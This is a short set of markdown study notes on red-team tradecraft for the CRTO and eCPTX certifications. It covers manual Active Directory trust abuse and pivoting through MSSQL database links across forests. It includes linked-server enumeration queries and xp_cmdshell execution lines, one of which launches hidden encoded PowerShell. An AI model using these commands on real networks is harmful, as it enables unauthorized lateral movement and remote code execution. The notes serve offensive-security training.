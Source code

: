 # Manual Trust Abuse
Prior to the days of easily abusing intra-forest trusts via SID History abuse, attackers had to enumerate and map out foreign user/group membership and escalate from child trust to root domain by hand. 

 - Enumerate and map trust relationships
 - Enumerate security principals that have access to resources in another domain, or security principals that are from another domain. 
 - Utitilze targeted account compromise to pivot through domain trusts to achieve objective.
------------------------------------------------------------------------
In some cases, this may be easier than other methods. 

Let's say there's a user in domainA.local that is also an administrator on the domain controller of domainB.local. If we can compromise that user, it is very simple to compromise domainB. 

There might be many different scenarios depending on the configuration of the active directory environment you are in. While taking CRTO and eCPTXv2, I was able to abuse MSSQL database links across forest trusts.

# MSSQL Database Link Abuse
>*A database link allows a SQL Server to access other resources like other SQL Server. If we have two linked SQL Servers we can execute stored procedures in them. Database links also works across Forest Trust!*

1. Enumerate database links
2. We can use queries to enumerate other links from the linked database
3. Query execution for RCE

- Enumerating existing links:
    - `select * from master..sysservers`

- Enumerating other links from the another link:
    - `select * from openquery("LinkedDatabase", 'select * from master..sysservers')`

- Code execution:
    - `Get-SQLServerLinkCrawl -Instance <SPN> -Query "exec master..xp_cmdshell 'whoami'"`

     - `SELECT * FROM OPENQUERY("[LINK]", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')`


# Conclusion 
These were the attacks and methods that I utilize for CRTO and eCPTX. This is not meant to be a guide or a complete list of attacking trusts. This is just a reorganization of my notes. 